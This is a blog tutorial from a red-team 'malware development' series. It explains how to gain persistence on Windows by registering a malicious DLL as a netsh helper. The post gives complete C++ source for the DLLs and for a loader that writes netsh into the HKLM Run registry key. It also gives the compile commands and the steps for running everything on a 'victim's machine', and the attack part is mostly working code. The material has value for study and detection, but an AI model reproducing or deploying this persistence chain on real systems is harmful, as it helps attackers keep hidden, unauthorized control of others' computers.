 ```yaml
---
title:  "Malware development: persistence - part 6. Windows netsh helper DLL. Simple C++ example."
date:   2022-05-29 10:00:00 +0600
header:
  teaser: "/assets/images/56/2022-05-29_15-24_1.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![pers](/assets/images/56/2022-05-29_15-24_1.png){:class="img-responsive"}    

This post is a next part of a series of articles on windows malware persistence techniques and tricks.    

Today I'll write about the result of my own research into another persistence trick: Netsh Helper DLL.    

### netsh

**Netsh** is a Windows utility that administrators can use to modify the host-based Windows firewall and perform network configuration tasks. Through the use of DLL files, Netsh functionality can be expanded.

This capability enables red teams to load arbitrary DLLs to achieve code execution and therefore persistence using this tool.
However, local administrator privileges are required to implement this technique.

### practical example

Let's go to consider practical example. First of all create malicious DLL:

```cpp
/*
evil.cpp
simple DLL for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

extern "C" __declspec(dllexport) DWORD InitHelperDll(DWORD dwNetshVersion, PVOID pReserved) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

Compile it:

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.cpp -fpermissive
```

![pers](/assets/images/56/2022-05-29_15-12.png){:class="img-responsive"}    

And transferred to the target victim's machine.

Netsh interacts with other components of the operating system via dynamic-link library (DLL) files. Each netsh helper DLL offers a comprehensive collection of features. The functionality of Netsh can be expanded using DLL files:

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

![pers](/assets/images/56/2022-05-29_15-20.png){:class="img-responsive"}    

Then, the `add helper` can be used to register the DLL with the `netsh` utility:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil.dll
```

![pers](/assets/images/56/2022-05-29_15-23.png){:class="img-responsive"}    

![pers](/assets/images/56/2022-05-29_15-24.png){:class="img-responsive"}    

Everything is worked perfectly!

However, `netsh` is not scheduled to start automatically by default. Persistence on the host is created by creating a registry key that executes the application during Windows startup. This can be done immediately using the script below:

```cpp
/*
pers.cpp
windows persistence via netsh helper DLL
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/05/29/malware-pers-6.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // netsh
  const char* netsh = "C:\\Windows\\SysWOW64\\netsh";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    RegSetValueEx(hkey, (LPCSTR)"hack", 0, REG_SZ, (unsigned char*)netsh, strlen(netsh));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see it's similar to script from my post about [persistence via registry run keys](/tutorial/2022/04/20/malware-pers-1.html)

Check registry run keys:

```powershell
reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /s
```

![pers](/assets/images/56/2022-05-29_15-18.png){:class="img-responsive"}    

Compile it:

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/56/2022-05-29_15-14.png){:class="img-responsive"}    

and run on victim's machine:

```powershell
.\pers.exe
```

![pers](/assets/images/56/2022-05-29_15-21.png){:class="img-responsive"}    

When the `add helper` command is executed to load a DLL file, the following registry key is created:

![pers](/assets/images/56/2022-05-29_15-25.png){:class="img-responsive"}    

But there is a caveat. The PoC's logic needs to be updated to create a new thread so that netsh can still be used while the payload is running. However, when netsh ends, so does your malicious logic.

So, let's try. Create new DLL (`evil2.cpp`):

```cpp
/*
evil2.cpp
simple DLL for netsh
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/05/29/malware-pers-6.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

DWORD WINAPI Meow(LPVOID lpParameter) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 1;
}

extern "C" __declspec(dllexport) DWORD InitHelperDll(DWORD dwNetshVersion, PVOID pReserved) {
  HANDLE hl = CreateThread(NULL, 0, Meow, NULL, 0, NULL);
  CloseHandle(hl);
  return 0;
}
```

Compile:

```bash
x86_64-w64-mingw32-gcc -shared -o evil2.dll evil2.cpp -fpermissive
```

![pers](/assets/images/56/2022-05-29_16-21.png){:class="img-responsive"}    

and run steps again:

```powershell
netsh
add helper Z:\2022-05-29-malware-pers-6\evil2.dll
```

![pers](/assets/images/56/2022-05-29_16-23.png){:class="img-responsive"}    

As you can see, everything is ok, `netsh` can still be used. And we can check registry key for correctness:    

```powershell
reg query "HKLM\Software\Microsoft\NetSh" /s
```

![pers](/assets/images/56/2022-05-29_16-23_1.png){:class="img-responsive"}    

Because it is based on the exploitation of system features, this type of attack cannot be easily mitigated with preventive controls.

[netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts)    
[MITRE ATT&CK: Netsh Helper DLL](https://attack.mitre.org/techniques/T1546/007/)    
[source code on github](https://github.com/cocomelonc/2022-05-29-malware-pers-6)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
